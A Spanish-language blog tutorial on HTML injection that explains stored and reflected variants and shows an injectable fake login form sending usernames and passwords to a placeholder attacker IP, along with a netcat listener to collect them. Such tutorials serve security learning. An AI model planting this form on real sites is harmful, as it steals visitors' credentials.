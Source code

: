 ```yaml
---
title: HTML Injection
date: 2019-04-15
categories: [Pentesting, Injection]
excerpt: Vulnerabilidad HTML.
tags: [HTML, Injection]
---
```


## ¿Que es la inyección HTML?
---

Este tipo de ataque nos permite inyectar código HTML malicioso a través de campos vulnerables donde la web espera datos en formas de texto, este tipo de inyección se suelen hacer por dos propósitos, modificar el contenido de la web (ya sea información o el diseño como tal) o robar la identidad de algún usuario haciéndonos pasar por el.  
  
Realizar este tipo de ataque o inyección es bastante sencillo, pues, HTML no es un lenguaje complejo para aprender, si quiere seguir con este tutorial te recomiendo conocimientos previos de [HTML](https://www.w3schools.com/html/). También recomiendo este otro blog: [XSS](www.sstandby.github.io/posts/xss) donde hablo de otro método o inyección.  
  
Existen diversos métodos para poder llevar a cabo todo esto y son:  

-  HTML Almacenado: Este método se le conoce como persistente ya que al inyectar algún script en la pagina "victima" se almacenara permanentemente en el servidor de la web.
-  HTML Reflejado (Url, get, post): Este método es lo contrario al anterior conocido también como no persistente, porque el código HTML no es almacenado en el servidor, en este caso la web responde inmediatamente a la entrada maliciosa del atacante o usuario.

### Ejemplos.  
---

Usare dos ejemplos para explicar el primer método. Lo que debemos hacer es inyectar el siguiente código en alguna parte de la web, este sera almacenado en el servidor web para que los nuevos visitantes interactúen con el, las credenciales son enviadas a la IP atacante:

```html
<form name="login" action="http://ipdelatacante:puerto/test.html">
<table>
<tr><td>Username: </td><td><input type='text' name="username"/></td></tr>
<tr><td>Password: </td><td><input type='password' name="password"/></td></tr>
</table>
<input type="submit" value="Login"/>
</form>
```

![html](/assets/img/post/22/html1.png)
  
Ahora solo falta configurar netcat para que nos llegue las credenciales a nuestra IP.  
  
```bash
nc -nvlp 8080
```
  
![html2](/assets/img/post/22/html2.png)

Puse este ejemplo, porque simplemente me gusto lo creativo que es y es uno de muchos que en realidad te dice como es un verdadero ataque de HTML almacenado, para los que estén perdidos explicare su proceso en un pequeño resumen; todo que sea registrado por el cliente sera reenviado a la dirección IP (La de nosotros), como verán nos dice hasta que os usamos y que navegador utilizamos como cliente. También se puede hacer diferentes mas buenas que esta, esto solo es algo básico, pero es para que se  den una idea. Todo dependerá de su iframe, hasta pueden usar curl y hacer cosas curiosas.  
   
### HTML POST. 
---
  
> Primero explicare lo que es GET y POST de forma resumida para puedan entenderlo: **Get:** Envía los datos de forma visible mientras que **POST:** lo envía de forma invisible o oculta.

![html3](/assets/img/post/22/html3.png)

Al darle Go la información del cliente sera procesada por el servidor de forma invisible y oculta, pero ¿Que pasaría si analizamos esa información que procesamos?, nos podremos dar de cuenta el método (firstname=Hola&lastname=Hola&form=submit) que usa en este caso vemos la utilización de html podemos buscar vulnerabilidades en esto, por ejemplo, usar a favor esto para poner html dentro del inframe html:  
  
![html4](/assets/img/post/22/html4.png)

### HTML Injection - Reflected (GET)
---

Es todo lo contrario puesto que si se envía la información, pero no de forma invisible sino visible a la vista del cliente o del atacante, por lo tanto podemos usar esto de dos formas implementar nuestro inframe mediante la URL o desde ya por el formulario, ya que la url nos dice como trabaja. 

![html5](/assets/img/post/22/html5.png)

Fin del comunicado, nos vemos.